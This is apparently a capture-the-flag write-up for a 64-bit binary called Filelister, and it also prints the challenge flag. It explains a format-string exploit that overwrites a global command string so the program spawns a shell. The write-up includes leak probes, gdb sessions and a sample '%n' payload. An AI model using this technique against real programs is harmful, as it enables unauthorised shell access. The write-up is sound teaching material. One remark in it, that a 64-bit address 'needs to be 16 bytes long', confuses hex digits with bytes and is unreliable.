

# Filelister

### Description




## Solution

### Basic Analysis

#### Static

I disassembled the binary in `FileAnalysis.txt`
From the
The variable `COMMAND` is stored in `rip+0x200913` (or also in `0x601058` I think)

#### Dynamic

Through some experimentation on the input we know we can access the input on the stack in the format string from the 4th parameter onwards

```
(base) [hacker@hackerbook Filelister]$ ./Given/filelister
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 4: FileLister
=========================================================================
Enter Username => AAAA %x %x %x %x %x %x %x %x %x %x %x
Greetings AAAA 87ecd290 0 0 87ecf3b0 0 41414141 25207825 20782520 78252078 25207825 df6a6808
Here are my files!
Description1.png  Description2.png  FileAnalysis.txt  Given  README.md	solve.py
(base) [hacker@hackerbook Filelister]$
```

I opened the binary in gdb and tried to confirm the location of thh `COMMAND variable`

```
Breakpoint 1, 0x0000000000400751 in main ()
(gdb) ni
0x0000000000400758 in main ()
(gdb) ni
0x0000000000400761 in main ()
(gdb) info reg
rax            0xa3a74f800b8aa400  -6654262513048574976
rbx            0x400880            4196480
rcx            0x7ffff7f98598      140737353713048
rdx            0x7fffffffe5b8      140737488348600
rsi            0x7fffffffe5a8      140737488348584
rdi            0x1                 1
rbp            0x7fffffffe4b0      0x7fffffffe4b0
rsp            0x7fffffffe3a0      0x7fffffffe3a0
r8             0x0                 0
r9             0x7ffff7fdc070      140737353990256
r10            0x69682ac           110527148
r11            0x202               514
r12            0x400610            4195856
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x400761            0x400761 <main+20>
eflags         0x206               [ PF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bin/ls"
(gdb) x/s 0x60105D
0x60105d <COMMAND+5>:	"ls"
```

### Approach

#### Modifying the values

The main idea is to modify the value of the `COMMAND` variable to be `sh`, such that it gives a shell which we can then do stuff with.
```
Breakpoint 2, 0x0000000000400852 in main ()
(gdb) set {char [8]}0x601058="/bin/sh"
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bin/sh"
(gdb) continue
Continuing.
[Detaching after vfork from child process 81537]
[Inferior 1 (process 81290) exited normally]
(gdb)
```
```
Breakpoint 2, 0x0000000000400852 in main ()
(gdb) set {char [8]}0x601058="echo 1 "
(gdb) continue
Continuing.
[Detaching after vfork from child process 82035]
1
[Inferior 1 (process 81992) exited normally]
(gdb)

```

Testing setting the value of `COMMAND` with an integer.
```
Breakpoint 2, 0x0000000000400852 in main ()
(gdb) set {int}0x60105B=4050481227897136438
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bi6e2f"
(gdb) set {int}0x60105D=0x7363
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bi6ecs"
(gdb) set {int}0x60105D=0x736c
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bi6els"
(gdb) set {int}0x601058=0x0000736c
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"ls"
(gdb)
(gdb) set {int}0x601058=0x00006873
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"sh"
```

### Organising the payload

This is a typical format string exploit, as you can see from the `printf(username)` in the source code. If you don't understand what is this, google for LiveOverflow's Binary Exploitation Video series (as what I usually say).

Usually for a format string exploit where we put the values in the payload like this

```
address + %{excess padding required to reach length}p+%{nth argument to printf (to reach the address)}n
```

For example, the code below writes the value `26739 = 0x00006873` to the 4th item on the stack
```
\x58\x10\x60\x00\x00\x00\x00\x00%26731x%4$n
```

However there is a problem with this approach. Since our variable address is so small, it is full of null bytes `\x00`. The program would only look at the string till the null byte, so it becomes like this
```
\x58\x10\x60
```

A way I thought to get around this is just to move the address to the back of the payload so it doesn't screw up the string passed into the `printf` function. You also need some padding before the address, so that the address fits nicely into a  memory location printf can call from. Kind of like this
```
%{excess padding required to reach length}p+%{nth argument to printf (to reach the address)}n + padding2(from 0 to 8 characters) + address
```

We know the excess padding required to reach the length, but we don't know what argument the address is, and the amount of padding required

#### Fuzzing

I basically coded a python program in `solve.py` to find the above 2 values needed. After that it connects to the server, sends the payload and gets the flag.

 Some things to take note.
1. It is a 64 bit binary, so the address needs to be 16 bytes long. Notice how when you input in `%p` the program gives an output of more than just 8 bytes long?
    ```
    $ Given/filelister
     _______  _     _  __    _  _______  __   __  _______  _______  ______   
    |       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
    |    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
    |   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
    |    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
    |   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
    |___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

    =========================================================================
                             Stage 4: FileLister
    =========================================================================
    Enter Username => %p
    Greetings 0x7ffce549e660
    Here are my files!
    ```
    What this means is that the address needs to be 16 bytes long. In short, what this means in pwntools is to use `p64` for packing bytes not `p32`
2. `%p` is always better than `%x`, because when a hex value is printed using `%p`, it also has the `0x` header automatically given for you. Easy way to separate the values if for example you give in an input like `%p%p`
3. When `printf` calls the arguments, it is reading off from the original string input, **NOT the formatted string given as output**. Conceptually this makes sense, because when reading off the arguments from the stack, it is the inital string that is on the stack, and not the formatted string output. But this is just here just in case there is any conceptual misunderstanding.

Running `solve.py` should get you the flag, as well as an interactive shell if you are interested.

## Flag

`CTFSG{f1l3l15t3r_m0r3_l1k3_sh3ll_pr0v1d3r}`
